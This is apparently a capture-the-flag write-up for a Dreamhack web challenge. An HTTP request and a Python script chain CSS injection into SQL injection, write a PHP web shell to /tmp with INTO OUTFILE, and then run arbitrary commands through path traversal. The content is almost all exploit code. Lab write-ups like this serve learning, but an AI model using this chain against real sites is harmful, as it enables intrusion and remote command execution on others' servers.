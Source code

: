 ```http
POST /?path=write HTTP/1.1
Host: host1.dreamhack.games:9111
Content-Length: 220
Content-Type: application/x-www-form-urlencoded
Connection: close

memoTitle=asdf&memoColor=aqua}.content{background:%20url('/check.php?id=99999%20union%20select%20concat(char(60),"?php%20echo%20system($_GET[\'cmd\']);%20?",char(62))%20into%20outfile%20"/tmp/cmd1.php"')&memoContent=adsf
```
So, as above, I inserted the SQL Injection payload that upload the webshell in the /tmp/cmd1.php path and uploaded the webshell through the report function.

```python
import requests
import string 
import random
import re

CHALLURL = "http://host2.dreamhack.games:16301"
LENGTH = 6

string_pool = string.digits
filename = ""

for i in range(LENGTH):
    filename += random.choice(string_pool) 

FILANAME = filename + '.php'
print(f'[+] FILANAME : {FILANAME}')

MEMODATA = {
    'memoTitle':'asdf',
    'memoColor':'aqua}.content{background: url(\'/check.php?id=9999999 union select concat(char(60),"?php echo system($_GET[\\\'cmd\\\']); ?",char(62)) into outfile "/tmp/' + FILANAME + '"\')',
    'memoContent':'asdf'
}
requests.post(CHALLURL + '/?path=write')
print(f'[+] MEMODATA : {MEMODATA}')

requests.post(CHALLURL + '/?path=write', data=MEMODATA)
POST_COUNT = re.findall('\<th scope\=\"row\"\>[0-9]*\<\/th\>', requests.get(CHALLURL + '/?path=list').text)
REPORT_NUM = POST_COUNT[-1].split('<th scope="row">')[1].split('</th>')[0]

requests.get(CHALLURL + f'/submit.php?id={REPORT_NUM}')
print("\n[+] Enable webshell!!")

while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get(CHALLURL + f'/?path=../../../../../../tmp/{filename}&cmd={payload}').text.split('<div class="body">')[1].split('</div>')[0].strip()
    print(RESULT)
```
I wrote the exploit code as above
